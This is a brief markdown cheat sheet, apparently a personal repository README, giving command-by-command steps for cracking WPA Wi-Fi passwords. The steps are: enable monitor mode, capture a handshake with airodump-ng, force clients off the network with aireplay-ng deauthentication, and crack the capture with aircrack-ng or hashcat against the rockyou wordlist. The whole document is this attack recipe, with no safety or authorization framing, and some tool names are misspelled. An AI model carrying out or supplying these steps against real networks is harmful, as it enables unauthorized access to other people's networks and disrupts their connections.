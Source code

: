 # Wireless excess point cracking:

### Putting wireless card into monitor mode

- iwconfig : to check the card
- ifconfig (cardname) down
- iwconfig (cardname) mode monitor
- ifconfig (cardname) up

### Deauthenticated devices and grabbing password

- airmon-ng check (cardname)
- airmon-ng check kill
- put it monitor mode again
- arodump-ng (cardname)
- arodump-ng -c (channel id) --bssid
  (mac) -w (filename) (cardname)
- aireplay-ng -0 0 -a (mac-id) (cardname)
- you only need wpa handshake and .cap file

### Aircrack password cracking

- locate rockyou.txt
- cd to it
- cp rockyou.txt.gz /home/asynccat/Desktop
- gzip -d rockyou.txt.gz
- aircrack-ng -w rockyou.txt (.cap file)

### Hashcat password cracking

- convert .cap file to .hccapx
- hashcat -a 0 -m 2500 (.hccapx) rockyou.txt
